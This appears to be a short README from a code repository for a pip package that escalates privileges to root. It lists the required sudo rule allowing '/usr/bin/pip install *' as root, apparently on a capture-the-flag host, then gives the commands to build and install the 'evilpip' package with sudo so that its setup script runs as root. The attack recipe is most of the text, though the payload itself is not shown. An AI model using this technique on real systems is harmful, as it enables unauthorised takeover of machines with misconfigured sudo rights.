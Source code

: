 # Privescalate python-pip 

Simple pip privescalation pip package

This is required

```sh
User user may run the following commands on canape:
(root) /usr/bin/pip install *
```


```sh
python setup.py sdist
<Transfer files>
sudo -u root /usr/bin/pip install evilpip-1.tar.gz
```

